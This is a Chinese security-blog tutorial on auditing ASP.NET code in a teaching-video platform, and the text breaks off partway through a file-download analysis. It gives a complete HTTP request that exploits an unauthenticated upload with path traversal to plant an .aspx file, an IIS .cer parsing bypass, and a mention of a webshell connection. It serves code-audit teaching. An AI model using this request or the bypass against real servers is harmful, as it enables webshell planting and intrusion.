# 奇安信攻防社区-从某教学视频应用云平台入门.net审计

### 从某教学视频应用云平台入门.net审计

ASP.NET审计入门学习

# 0x00 前言

前段时间深情爷给我发了一个Poc，是某教学视频应用云平台的文件上传，故事也从这里展开......

得到Poc后试了一下，一不小心找到了源码（真·纯安装源码），拿到自己电脑上进行一通瞎搞，一头雾水

由于自己之前没接触过.net的审计，于是跟几个师傅学习了一下.net的审计方法，也是拿到了他们的审计报告进行学习，由于这套代码比较简单，也属于是入门级别，于是打算记录下来。

需要注意的是，目前挖出的所有漏洞官方都已修复！请勿用于违法用途，本文仅供学习。



# 0x01 前置知识

.net是一款可以使用 C#、F# 或 Visual Basic 编写的框架，本意是微软用来对标JAVA的，有关的语言学习可以看看官网：[.NET 编程语言 | C#、F# 和 Visual Basic (microsoft.com)](https://dotnet.microsoft.com/zh-cn/languages)

在.net中通常使用C#语言进行编写，通常判断网站是否是.net网站可以看看他的后缀是啥，aspx就是.net的网站，在拿到一份.net源码的时候，我们得了解每个C#文件的作用含义，了解如何进行审计，工具是什么，路由怎么看

## C#文件后缀作用及位置

1.  **.aspx：**
    
    -   **用途：** ASP.NET 网页文件。
    -   **描述：** 包含网页的标记和服务器端代码，用于构建动态的 Web 页面。
2.  **.cs：**
    
    -   **用途：** C# 源代码文件。
    -   **描述：** 包含 C# 编程语言的源代码，用于实现应用程序的逻辑和功能。
3.  **.aspx.cs：**
    
    -   **用途：** ASP.NET 网页的代码文件（与 .aspx 配套）。
    -   **描述：** 包含与 .aspx 文件相关联的 C# 代码，用于处理页面的服务器端逻辑。
4.  **.ascx：**
    
    -   **用途：** ASP.NET 用户控件文件。
    -   **描述：** 包含可在多个页面中重复使用的自定义用户界面组件，用于提高代码的可维护性和可重用性。
5.  **.asmx：**
    
    -   **用途：** ASP.NET Web 服务文件。
    -   **描述：** 包含用于提供 Web 服务的代码和逻辑，支持通过 SOAP（Simple Object Access Protocol）进行通信。
6.  **.asax：**
    
    -   **用途：** 全局应用程序类文件。
    -   **描述：** 包含应用程序的全局事件处理和初始化代码，如应用程序启动时的逻辑。
7.  **.soap：**
    
    -   **用途：** SOAP 文件。
    -   **描述：** 包含使用 SOAP 协议定义的 Web 服务的描述信息。
8.  **.dll：**
    
    -   **用途：** 动态链接库文件。
    -   **描述：** 包含已编译的代码和库，可供应用程序调用和重用。通常用于将代码分割成模块，提高可维护性和复用性。

用此可看出 **dll、aspx、aspx.cs** 这三个文件是我们需要去关注的

在一个典型的 ASP.NET Web 应用程序中，.dll、.aspx 和 .aspx.cs 文件通常分布在不同的目录中：

1.  **.dll 文件：**
    
    -   **位置：** .dll 文件通常位于应用程序的 bin 目录中。
    -   **描述：** 这里存放了编译后的程序集文件，包含了应用程序的已编译代码。这些文件在运行时由 ASP.NET 应用程序引擎加载。
2.  **.aspx 文件：**
    
    -   **位置：** .aspx 文件通常位于应用程序的 Web 页面目录中，例如 Pages 或 Views 目录。
    -   **描述：** 这是 ASP.NET Web 页面文件，包含了页面的 HTML 标记和可能的服务器端代码块。
3.  **.aspx.cs 文件：**
    
    -   **位置：** .aspx.cs 文件通常位于与 .aspx 文件相同的目录中，但通常被组织在 App\_Code 或 CodeBehind 等子目录中。
    -   **描述：** 这是与 .aspx 文件关联的服务器端代码文件，包含了与页面相关的 C# 或 VB.NET 代码。

例如，一个简单的目录结构可能如下所示：

```js
/YourWebApp  
  /bin  
    YourWebApp.dll  
  /Pages  
    Home.aspx  
    Home.aspx.cs  
  /App\_Code  
    CommonFunctions.cs  
  Web.config
```

在这个例子中：

-   /bin 目录包含已编译的 .dll 文件。
-   /Pages 目录包含 Web 页面的 .aspx 和 .aspx.cs 文件。
-   /App\_Code 目录包含共享的服务器端代码文件。

## 反编译工具ILSpy

前面提到 dll 中存在着我们核心的代码内容，那么应该如何查看呢，这里推荐使用一款工具 ILSpy ，这款工具对可以dll文件进行反编译，查看其内部代码内容，也很方便的将内部代码全部导出为正常的 .cs。

官方仓库链接：[icsharpcode/ILSpy: .NET Decompiler with support for PDB generation, ReadyToRun, Metadata (&more) - cross-platform! (github.com)](https://github.com/icsharpcode/ILSpy)



这里在左上角的文件导入dll文件即可

## aspx文件内容解析

通常在我们打开aspx文件时，第一行会是以下这样：

```c\#
<%@ Page Language="C#" AutoEventWireup="true" CodeBehind="MyPage.aspx.cs" Inherits="MyWebApp.MyPage" %>
```

这是一个 ASP.NET Web 页面的指令（Directive），用于在页面中指定一些重要的属性和配置

解析如下：

-   **<%@ Page：** 这是指令的起始标记，用于定义页面的属性和配置。
-   **Language="C#"：** 指定服务器端代码使用的编程语言，这里是 C#。
-   **AutoEventWireup="true"：** 一个布尔值，表示是否启用自动事件绑定。当设置为 true 时，ASP.NET 将自动绑定事件处理程序。
-   **CodeBehind="MyPage.aspx.cs"：** 指定代码文件的相对路径。在这个例子中，代码文件名为 MyPage.aspx.cs，它通常包含页面的服务器端逻辑。
-   **Inherits="MyWebApp.MyPage"：** 指定页面的继承关系。这里，MyPage 页面继承自 MyWebApp.MyPage 类。Inherits 属性告诉 ASP.NET 使用指定类中的代码。

通过这个指令，ASP.NET 可以正确地处理页面，编译代码文件，然后将其与页面关联起来。这使得在 .aspx 页面中可以使用与 .aspx.cs 文件关联的服务器端代码

在一般的.NET代码中，我们需要特别注意 inherits（继承）部分。它会指向我们需要去找的 dll ，例如前面的示例可能指向的是 MyWebApp.dll ，在MyWebApp.dll中寻找MyPage

# 0x02 Poc—前台Nday上传

```php
POST /Tools/Video/VideoCover.aspx HTTP/1.1
Host: xxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insectre-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 1015 7) AppleWebKit/537.36(KHTML, like Gecko) Chrome/107.0.0.0 Safari 537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avifimage/webp,image/apng,*/*;q=0.8,application/signed-exchangev=b3;q=0.9
Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,zh;g=0.9
Cookie: ASP.NET_SessionId=pgfnw0patx4kh0jsnpjgzcmq; PrivateKey=f09020eaf656f9cf5d9292d39c296d1c
Connection: close
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Length: 294

------WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Disposition: form-data, name= "file";filename="/../../../AVA.ResourcesPlatform.WebUI/test.aspx"
Content-Type: image/jpeg

<%@Page Language="C#"%>
<%
Response.Write("test");
%>
------WebKitFormBoundaryVBf7Cs8QWsfwC82M--
```

根据Poc在根目录中 Tools/Video 下找到 VideoPath.aspx



这里 Inherits 指向的是 AVA.ResourcesPlatform.AdminUI.Services.WeikeCutOut.UploadFile 类，Inherits 属性告诉 ASP.NET 这个页面将使用指定类中的代码。这里也说了UploadFile 页面继承自 AVA.ResourcesPlatform.AdminUI.Services.WeikeCutOut.UploadFile 类

所以我们去 bin 目录下找到 AVA.ResourcesPlatform.AdminUI.dll



把这个dll直接丢到ILSpy进行反编译，在左侧栏中找到对应的UploadFile



把代码丢出来看看为什么会存在文件上传

```c\#
using System;  
using System.IO;  
using System.Web;  
using System.Web.UI;  

public class UploadFile : Page  
{  
    protected void Page\_Load(object sender, EventArgs e)  
    {  
        if (base.Request.Files.Count <= 0)  
        {  
            return;  
        }  
        try  
        {  
            HttpPostedFile httpPostedFile = base.Request.Files\[0\];  
            string fileName = httpPostedFile.FileName;  
            string text = base.Request.QueryString\["VideoGuid"\];  
            string text2 = base.Server.MapPath("~/Upload/Video/" + text + "/");  
            if (!Directory.Exists(text2))  
            {  
                Directory.CreateDirectory(text2);  
            }  
            text2 += httpPostedFile.FileName;  
            httpPostedFile.SaveAs(text2);  
            base.Response.Clear();  
            base.Response.Write("Success");  
        }  
        catch (Exception ex)  
        {  
            base.Response.Clear();  
            base.Response.Write(ex.Message);  
        }  
    }  
}
```

首先开头导入四个命名空间

1.  using System;：
    
    -   导入 System 命名空间，这是.NET框架中最基本的命名空间之一，包含了常用的系统类型和功能。例如， Exception 异常就在 System 命名空间中定义。
2.  using System.IO;：
    
    -   导入 System.IO 命名空间，该命名空间提供了文件和流的输入输出操作相关的类。在这段代码中，主要用于处理文件和目录的操作，比如创建目录和保存文件。
3.  using System.Web;：
    
    -   导入System.Web 命名空间，该命名空间包含了与Web开发相关的类和功能。在这里，主要用于处理Web请求和相关的操作，如 HttpPostedFile 。
4.  using System.Web.UI;：
    
    -   导入 System.Web.UI 命名空间，该命名空间包含了与Web用户界面（UI）开发相关的类和功能。在这里，主要用于处理Web页面和控件的开发，比如 Page 类。

有了 using System.IO; 语句，就可以直接使用 Directory 、 File 等类，而不需要写成 System.IO.Directory 、 System.IO.File。这四个库是.NET Framework的一部分，属于是自带的（.NET Framework是由Microsoft开发的一个面向Windows操作系统的软件开发框架，包含了大量的类库和运行时环境，用于支持和简化Windows应用程序和Web应用程序的开发。这个框架在Windows操作系统中是默认安装的。）

然后使用了 Page\_Load 方法，这个方法是当页面被加载时触发的事件，该方法先使用

```c\#
if (base.Request.Files.Count <= 0)  
{  
    return;  
}
```

去判断是否有文件被上传，如果没有文件上传则直接返回

当有文件上传时，会对上传的文件进行处理

获取第一个上传的文件：

```c\#
HttpPostedFile httpPostedFile = base.Request.Files\[0\];
```

从上传的文件中获取文件名：

```c\#
string fileName = httpPostedFile.FileName;
```

从查询字符串中获取名为 "VideoGuid" 的参数：

```c\#
string text = base.Request.QueryString\["VideoGuid"\];
```

进行目录拼接，然后判断文件夹是否存在，不存在就创建一个

```c\#
if (!Directory.Exists(text2))  
{  
    Directory.CreateDirectory(text2);  
}
```

最后通过 text2 与Filename进行拼接成文件路径保存，成功返回Success

```c\#
text2 += httpPostedFile.FileName;  
httpPostedFile.SaveAs(text2);  
base.Response.Clear();  
base.Response.Write("Success");
```



到这里也算简单分析了一次，不提后续如何利用

至于这里为什么要跨目录进行上传，不能直接上传，是因为，这套系统的目录结构是

```js
xxx.WebUI  
xxx.AdminUI /我们这次分析的dll在这个目录下
```

要上传到前端得需要跨目录穿

所以总结一下漏洞成因是因为，文件上传未作限制，文件Filename进行拼接的时候未作过滤，导致运行../存在进行跨目录穿?

# 0x03 前台上传审计

将所有的dll通过ILSpy反编译后另存这些cs，文件上传的审计方法是通过搜索关键词进行快速定位，问了一下a佬审计的时候看哪些关键词，a佬马上丢两个常用的文件上传关键词 streamWriter.Write 和 SaveAs

于是直接快速定位了一个 *AVA.ResourcesPlatform.AdminUI.Services.WeikeCutOut.UploadFile*



通过逆向搜索看看谁引用 *AVA.ResourcesPlatform.AdminUI.Services.WeikeCutOut.UploadFile*

可以看到是 /Services/Convert/UploadFile.aspx



简单分析一下

```c\#
using System;
using System.IO;
using System.Web;
using System.Web.UI;

public class UploadFile : Page
{
    protected void Page_Load(object sender, EventArgs e)
    {
        if (base.Request.Files.Count <= 0)
        {
            return;
        }
        try
        {
            HttpPostedFile httpPostedFile = base.Request.Files[0];
            string fileName = httpPostedFile.FileName;
            string text = base.Request.QueryString["VideoGuid"];
            string text2 = base.Server.MapPath("~/Upload/Video/" + text + "/");
            if (!Directory.Exists(text2))
            {
                Directory.CreateDirectory(text2);
            }
            text2 += httpPostedFile.FileName;
            httpPostedFile.SaveAs(text2);
            base.Response.Clear();
            base.Response.Write("Success");
        }
        catch (Exception ex)
        {
            base.Response.Clear();
            base.Response.Write(ex.Message);
        }
    }
}
```

这段代码和前面的Poc是一样的，保存的时候会顺带创建一个文件夹



但是在利用的时候发现上传aspx失败，换后缀asp、cer会出现403，于是利用创建文件夹的特性，去创文件夹穿?

这时候访问显示500



蚁剑却可连接成功...不放图了

这里也是疑惑了一下，为什么传cer也可以被解析

百度一下，发现是 IIS6.0文件解析缺陷(asa,cer,cdx)

默认情况下，IIS对其后缀名映射到了asp.dll，asp.dll又是ASP脚本的解析文件，所以能够正常解析

后面又用同样的方法去找了五个文件上传点，也是成功复现了两个

因为代码原理一样就不重复举例了

# 0x04 前台文件下载

审计任意文件下载有个关键函数是 Response.BinaryWrite 直接全局搜

发现 AVA.ResourcesPlatform.WebUI.Download 下有这个函数



把代码脱下来分析一下，看看有没有过滤

```c\#
using System;
using System.IO;
using System.Threading;
using System.Web;
using System.Web.UI;
using AVA.ResourcesPlatform.Config;
using AVA.ResourcesPlatform.Factory;
using AVA.ResourcesPlatform.Language;
using AVA.ResourcesPlatform.Model.Pub;

public class Download : Page
{
    protected void Page_Load(object sender, EventArgs e)
    {
        string text = base.Request.GetFormValue("File").UrlDecode();
        if (string.IsNullOrEmpty(text))
        {
            throw new Exception(LanguageEnum.未指明下载文件.Define());
        }
        string text2 = base.Server.MapPath("~" + text);
        if (!File.Exists(text2))
        {
            throw new Exception(LanguageEnum.文件不存在.Define());
        }
        FileInfo fileInfo = new FileInfo(text2);
        Domain domain = CreateInstance.DomainDao.Get(CookieGroupConfig.DomainGuid);
        if (!ResponseFile(Page.Request, Page.Response, fileInfo.Name, fileInfo.FullName, domain.DownloadSpeed * 1024 * 1024))
        {
            base.Response.Write(LanguageEnum.下载文件出错.Define());
        }
        else
        {
            Page.Response.End();
        }
    }

    public bool ResponseFile(HttpRequest hRequest, HttpResponse hResponse, string hfileName, string hfullPath, long hspeed)
    {
        try
        {
            Page.Response.Clear();
            FileStream fileStream = new FileStream(hfullPath, FileMode.Open, FileAccess.Read, FileShare.ReadWrite);
            BinaryReader binaryReader = new BinaryReader(fileStream);
            try
            {
                hResponse.AddHeader("Accept-Ranges", "bytes");
                hResponse.Buffer = false;
                long length = fileStream.Length;
                long num = 0L;
                int num2 = 102400;
                int millisecondsTimeout = (int)Math.Floor(1000.0 * (double)num2 / (double)hspeed) + 1;
                if (hRequest.Headers["Range"] != null)
                {
                    hResponse.StatusCode = 206;
                    string[] array = hRequest.Headers["Range"].Split('=', '-');
                    num = Convert.ToInt64(array[1]);
                }
                hResponse.AddHeader("Content-Length", (length - num).ToString());
                if (num != 0)
                {
                    hResponse.AddHeader("Content-Range", $" bytes {num}-{length - 1}/{length}");
                }
                hResponse.AddHeader("Connection", "Keep-Alive");
                string text = null;
                string text2 = Context.Request.UserAgent.ToUpper();
                text = ((text2.Contains("MS") && text2.Contains("IE")) ? HttpUtility.UrlEncode(hfileName) : ((!text2.Contains("FIREFOX")) ? HttpUtility.UrlEncode(hfileName) : ("\"" + hfileName + "\"")));
                base.Response.ContentType = "application/octet-stream ";
                base.Response.AddHeader("Content-Disposition ", $"attachment;filename={text}");
                binaryReader.BaseStream.Seek(num, SeekOrigin.Begin);
                int num3 = (int)Math.Floor(Convert.ToDouble((length - num) / num2)) + 1;
                for (int i = 0; i < num3; i++)
                {
                    if (hResponse.IsClientConnected)
                    {
                        hResponse.BinaryWrite(binaryReader.ReadBytes(num2));
                        Thread.Sleep(millisecondsTimeout);
                    }
                    else
                    {
                        i = num3;
                    }
                }
            }
            catch
            {
                return false;
            }
            finally
            {
                binaryReader.Close();
                fileStream.Close();
            }
        }
        catch
        {
            return false;
        }
        return true;
    }
}
```

开局先用 Page\_Load 方法去获取参数 File 中的值，并且对其URL解码：

```c\#
string text = base.Request.GetFormValue("File").UrlDecode();
```

然后检测是否获取文件名，没有就抛出异常，然后用 text2 将虚拟路径转化为物理路径，去检测文件是否存在，不存在同样抛出异常：

```c\#
if (string.IsNullOrEmpty(text))  
{  
    throw new Exception(LanguageEnum.未指明下载文件.Define());  
}  
string text2 = base.Server.MapPath("~" + text);  
if (!File.Exists(text2))  
{  
    throw new Exception(LanguageEnum.文件不存在.Define());  
}
```

获取文件信息以及域信息：

```c\#
